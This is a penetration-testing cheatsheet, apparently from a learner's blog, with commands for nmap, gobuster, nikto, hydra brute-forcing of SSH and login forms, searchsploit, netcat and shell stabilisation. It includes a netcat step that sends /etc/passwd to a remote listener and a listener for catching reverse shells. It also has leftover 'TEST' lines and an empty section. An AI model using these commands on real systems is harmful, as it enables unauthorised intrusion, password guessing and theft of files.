

<h1>
  <i class="fas fa-note-sticky"></i>&nbsp;Cheatsheet
</h1>

This is a cheatsheet, or quick reference for those commands and concepts that you quickly look to lookup. This page is broken up into:

- [Phases of Hacking](#phases-of-hacking)
- [Commands](#commands)
  - [Command: `nmap`](#command-nmap)
  - [Command: `gobuster`](#command-gobuster)
  - [Command: `nikto`](#command-nikto)
  - [Command: `hydra`](#command-hydra)
    - [OPTION 1. SSH with fixed username and password wordlist](#option-1-ssh-with-fixed-username-and-password-wordlist)
    - [OPTION 2: SSH with username wordlist and fixed password](#option-2-ssh-with-username-wordlist-and-fixed-password)
    - [OPTION 3: Webform with fixed username and password wordlist](#option-3-webform-with-fixed-username-and-password-wordlist)
    - [OPTION 4: Webform with username wordlist and fixed password](#option-4-webform-with-username-wordlist-and-fixed-password)
  - [Command: `searchsploit`](#command-searchsploit)
  - [Command `nc` - NetCat for listening/receiving](#command-nc---netcat-for-listeningreceiving)
    - [Listen on Port 9000](#listen-on-port-9000)
    - [Quick-n-Dirty Port Scan](#quick-n-dirty-port-scan)
    - [Send/Receive a File](#sendreceive-a-file)
- [Concepts](#concepts)
  - [Concept: Upgrading a fragile shell](#concept-upgrading-a-fragile-shell)
    - [With Python `pty`](#with-python-pty)
    - [With `script`](#with-script)
  - [Concept: Seeing what commands current user can use as `sudo`](#concept-seeing-what-commands-current-user-can-use-as-sudo)

## Phases of Hacking

Below are the Five Phase of Hacking:



*\* Only used in ethical Red Team engagements, or in black hat scenarios.*

## Commands

Below are command references.

### Command: `nmap`

The `nmap` command is used to scan for open ports on a target machine.

> **Context:** This tool is run during the recon phase when you have access to a target host, and want to see what services are running on it.
{: .prompt-tip }

TEST - Before block

```bash
nmap -sCV 10.10.10.10
```

TEST - After block

### Command: `gobuster`

The `gobuster` command is used to enumerate and discover hidden files and directories on a web server.

> **Context:** This tool is run during the recon phase when you have a known web server, and want to see if common folder paths are on that web server. Using a wordlist like that medium one below attempts 220,560 possible folders on that target (e.g. `http://10.10.10.10/admin`, `http://10.10.10.10/login`, etc.)
{: .prompt-tip }

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
    -u http://10.10.10.10
```

### Command: `nikto`

The `nikto` command is a vulnerability scanner that is run against a web server. This looks for misconfigurations or other issues at the web server level.

> **Context:** This tool is run during the recon phase when you have a known web server, and want to see if there are common/known vulnerabilities in that hosting environment.
{: .prompt-tip }

```bash
nikto -h 10.10.10.10
```

### Command: `hydra`

The `hydra` command is a tool to brute-force usernames, passwords, or both against targets such as SSH, login web pages, etc.

> **Context:** This tool is run during the recon phase when you have access to a target website or SSH, and want to test usernames and passwords against it. This should only be done if you have a guess of what a username or password might be. To guess all users and x all passwords will likely not be fruitful, and is impractical. Meaning, it would take a long time and it's not a practical skill in the real-world, because all of these attempts would easily get noticed on the target network.
{: .prompt-tip }

#### OPTION 1. SSH with fixed username and password wordlist

Note the lowercase `-l` for a fixed username and an uppercase `-P` which points to a wordlist. For SSH notice that you use the syntax of `ssh://10.10.10.10` where that IP address would be your target machine.

```bash
hydra -l jdoe -P /usr/share/wordlists/rockyou.txt \
    ssh://10.10.10.10
```

#### OPTION 2: SSH with username wordlist and fixed password

Note the uppercase `-L` where a wordlist will be used for the username and the lowercase `-p` that points to a fixed password. For SSH notice that you use the syntax of `ssh://10.10.10.10` where that IP address would be your target machine.

```bash
hydra -L ./usernames.txt -p admin \
    ssh://10.10.10.10
```

#### OPTION 3: Webform with fixed username and password wordlist

Note the lowercase `-l` for a fixed username and an uppercase `-P` which points to a wordlist. For a web form notice that the last part is in the form of `url:variables;failure_test`. The example below will inject the `^USER^` and `^PASS^` into those form elements and http `POST` them to `/login.php`.

```bash
hydra -l jdoe -P /usr/share/wordlists/rockyou.txt \
    10.10.10.10 http-post-form \
    "/login.php:username=^USER^&password=^PASS^&sub=Login:F=Invalid username or password."
```

#### OPTION 4: Webform with username wordlist and fixed password

Note the uppercase `-L` where a wordlist will be used for the username and the lowercase `-p` that points to a fixed password. For a web form notice that the last part is in the form of `url:variables;failure_test`. The example below will inject the `^USER^` and `^PASS^` into those form elements and http `POST` them to `/login.php`.

```bash
hydra -L ./usernames.txt -p admin \
    10.10.10.10 http-post-form \
    "/login.php:username=^USER^&password=^PASS^&sub=Login:F=Invalid username or password."
```

### Command: `searchsploit`

The `searchsploit` tool searches for exploit files on the local machine. This is based on: [https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit). Generally, just using the syntax below will work in most cases.

```bash
searchsploit <keyword>
```

In the output, the location of those files are in: `/usr/share/exploitdb/exploits/`

### Command `nc` - NetCat for listening/receiving

The `nc` (NetCat) command is a basic tool for listening or sending raw data across the network. Some example below...

#### Listen on Port 9000

In a case where you want to "catch" a reverse shell, you could listen on port 9000 (it can be any port). A way to remember the command-line arguments is "Las Vegas No Problem".

```bash
nc -lvnp 9000
```

#### Quick-n-Dirty Port Scan

You can use the `-zv` option, a port or range of ports like below to do a very quick port scan:

```bash
nc -zv 192.168.1.1 1-1000
```

Example Output:

```bash
_gateway [192.168.1.1] 443 (https) open
_gateway [192.168.1.1] 80 (http) open
_gateway [192.168.1.1] 53 (domain) open
```

#### Send/Receive a File

There are arguably easier ways to do this (e.g. `python -m http.server 8888`, `scp`, etc) but you can send files back and forth between systems.

On the **receiving** side, you want to listen on port 9001 for example, and output everything you hear to a file (notice the `-l` and `-p` from earlier):

```bash
nc -l -p 9001 > ./remote-etc-passwd
```

Then, on the other machine, you **send** the file to the listening machine, also specifying port 9001 (it can be any unused port):

```bash
nc 10.10.20.4 < /etc/passwd
```

## Concepts

Below are not necessarily single commands, but concepts that might require multiple commands or scripts.

### Concept: Upgrading a fragile shell

When you establish a reverse shell, particularly over a `nc` connection, it's basically just sending raw ASCII back and forth. There isn't any support for VT codes like: backspace, up arrow, colors, etc. So, to help get a better prompt experience, you can run commands to upgrade the shell experience, when you've received an incoming, reverse shell:

#### With Python `pty`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### With `script`

```bash
script -q /dev/null /bin/bash
```

> **Note** that for this `script` technique that you will still see a simple `$` prompt. This is because `script` is telling `bash` to run as a subprocess, where it does not `source ~/.bashrc` by default. So, it's a little messy but if you want the prompt and other defaults in the `.bashrc`, just type `bash` to get a new shell on top of that.
{: .prompt-info }


What if you want an even better shell experience? Well, you can do <kbd>CTRL+Z</kbd>, which suspends this connection and brings you back to a shell prompt on your machine, you can then run:

```bash
# Enable backspace and control characters
stty raw -echo

# Enable line editing (backspace and command history CTRL^R)
stty -icanon min 1

# Properly handle CTRL+C and CTRL+Z
stty intr ^C susp ^Z
```

and then `fg` to bring that remote shell back to the foreground. Even better, edit your `~/.zshrc` and add the following:

```bash
alias fixshell='stty raw -echo; stty -icanon min 1; stty intr ^C susp ^Z; fg'
alias unfixshell='stty sane'
```

Then, when you get a remote shell, you can <kbd>CTRL+Z</kbd>, type `fixshell`<kbd>Enter</kbd> and it will do all of the above and return you back to the remote shell, which will be MUCH better. In fact, it's indistinguishable from an SSH connection, with the exception of colors.

The final piece to give you, what is basically an SSH shell is color support. If you:

```bash
echo $TERM
```

It will likely say `dumb`, meaning it thinks we are a "dumb terminal" who cannot support color. We can run:

```bash
export TERM=xterm-256color
```

Then, if we `source` a `.bashrc` file that we have access to, we should start seeing color:


### Concept: Seeing what commands current user can use as `sudo`

```bash
sudo -l
```
